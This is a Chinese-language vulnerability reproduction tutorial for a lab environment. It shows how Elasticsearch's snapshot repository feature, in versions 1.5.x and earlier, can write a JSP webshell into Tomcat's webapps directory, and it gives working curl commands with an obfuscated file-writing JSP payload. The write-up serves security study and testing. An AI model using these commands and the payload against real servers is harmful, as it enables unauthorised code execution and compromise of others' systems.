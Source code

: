 Elasticsearch 1.5.x 后台getshell
================================

一、漏洞简介
------------

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

二、漏洞影响
------------

Elasticsearch 1.5.x

三、复现过程
------------

### 测试环境

编译与启动测试环境：

    docker-compose build
    docker-compose up -d

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

    curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
    {"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
    '

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

    curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
         "type": "fs",
         "settings": {
              "location": "/usr/local/tomcat/webapps/wwwroot/",
              "compress": false
         }
    }'

存储库验证并创建:

    curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
         "indices": "yz.jsp",
         "ignore_unavailable": "true",
         "include_global_state": false
    }'

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](resource/Elasticsearch1.5.x后台getshell/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/WooYun-2015-110216/
